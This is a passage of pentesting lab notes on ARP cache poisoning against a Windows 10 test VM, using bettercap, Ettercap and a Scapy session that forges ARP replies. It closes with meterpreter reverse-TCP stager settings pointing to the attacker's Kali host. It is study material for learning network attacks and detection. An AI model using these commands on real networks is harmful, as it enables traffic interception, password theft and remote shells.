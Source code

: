 - run it : `bettercap -iface eth0 -caplet sniff.cap`

## Ettercap psw sniffing
- already installed on kali, use graphic interface
- enable packet forwarding to not block target
```
┌──(root㉿kali)-[/home/kali]
└─# cat /proc/sys/net/ipv4/ip_forward
0                              
┌──(root㉿kali)-[/home/kali]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward
┌──(root㉿kali)-[/home/kali]
└─# cat /proc/sys/net/ipv4/ip_forward     
1
```
- scan for host, click on loop button, see list : click list button
- start arp poisoning, click world button + start poisoning
- print less data than bettercap
- detect arp-spoof detection : exec on spoofed vm `arp -a`, if multiple ip have the same mac address, then an arp-spoof attack is in progress

## Manual arp cache poisoning with Scapy lib
- native on kali, open it in terminal `scapy`
```
┌──(root㉿kali)-[/home/kali]
└─$ scapy 
>>> ls(ARP)
>>> ls(TCP)
# get win10 test vm
>>> ls(Ether)
>>> broadcast = Ether(dst='ff:ff:ff:ff:ff:ff')
>>> broadcast.show()
arp_layer = ARP(pdst='<win10 vm ip>')
arp_layer.show()
entire_packet = broadcast/arp_layer
entire_packet.show()
answer = srp(entire_packet, timeout=2, verbose=True)[0]
print(answer)
print(answer[0])
print(answer[0][1].hwsrc) #hwsrc = mac of target (win10 wm)
target_mac_address = answer[0][1].hwsrc
malicious_arp_packet = ARP(op=2, hwdst=target_mac_address, pdst='<win10 vm ip>', psrc='<routeur ip>')
# pdst : dest of malicious_arp_packet
# psrc : fake src of malicious_arp_packet (routeur ip)
malicious_arp_packet.show()
# before sending malicious_arp_packet, run on win10 machine arp -a to check current state of arp table
send(malicious_arp_packet, verbose=False)
# rerun arp -a on win10 vm : routeur now has the same mac than kali vm!!
```


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate